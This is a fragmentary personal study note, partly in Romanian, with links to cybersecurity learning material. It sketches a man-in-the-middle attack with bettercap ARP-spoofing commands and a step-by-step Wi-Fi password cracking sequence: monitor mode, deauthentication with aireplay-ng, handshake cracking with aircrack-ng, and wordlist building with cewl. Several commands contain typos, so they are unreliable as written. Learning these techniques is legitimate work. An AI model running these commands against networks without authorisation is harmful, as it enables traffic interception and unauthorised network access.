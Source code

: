 https://www.youtube.com/watch?v=poDIT2ruQ9M&list=WL&index=1&pp=gAQBiAQB
jstego -- ?
cum comunica procesele in linux?
	Interacțiunea proceselor printr-un fișier.
	Interacțiunea proceselor prin intermediul semnalelor.
https://tryhackme.com/room/startingoutincybersec -- here is link with room TryHackMe


https://sift-mev.sfs.md/receipt/J106002147/1454.80/35284/2023-08-31
Sa intorc toate cererele care sunt disponibile--?

## Video 
#### MITM
```bash
sudo bettercap -iface wlan<0-1>
```
	```
	nee.probe on
	net show
	set arp.spoof.fullduplex true
	set arp.spoof.targer <local.IP>
	```
Start [[wireshark]] and capture traffic for wlan<0-1>.
#### Flipper Zero
#### DNS Spoofing

#### Wifi crack pass
1. ?
```bash
sudo airmon-ng wlan0 start
```
2. ?
```bash
iwconfig
```
3. ?
```bash
 sudo airmon-ng check kill
```
4. ?
```bash
sudo airodump-ng wlan0 -abg
```
5. ?
```bash
sudo airodump-ng --bssid <MAC-addres> -c <chanell> wlan0
```
6. ?
```bash
sudo aireplay-ng -0 0 -a <MAC-addres> wlan0 #maybe use -c <chenell> for chanel seting
```
7. ?
```bash
sudo aircrack-ng -w <wordlist> <handshake.cap>
```
8. ?
```bash
sudo cewl <site.com> -w <word_list_for_site.com>
```
9. pipal?
```bash
sudo pilal word_list_for_site.com # 
```
10. All combination for this first 10 password.
